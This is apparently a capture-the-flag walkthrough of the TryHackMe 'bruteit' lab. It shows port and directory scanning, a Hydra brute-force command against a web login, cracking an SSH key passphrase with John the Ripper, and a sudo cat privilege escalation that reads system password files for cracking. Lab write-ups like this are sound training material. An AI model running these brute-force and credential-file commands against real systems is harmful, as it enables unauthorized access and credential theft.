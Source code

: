# 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```
{% endcode %}

Dirbusting with gobuster

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```
{% endcode %}

[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><img src=".gitbook/assets/Screenshot_20230901_085800.png" alt=""><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><img src=".gitbook/assets/Screenshot_20230901_085820.png" alt=""><figcaption><p>POST data values</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:

{% code overflow="wrap" lineNumbers="true" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login with credentials:

<figure><img src=".gitbook/assets/Screenshot_20230901_085256.png" alt=""><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```
{% endcode %}
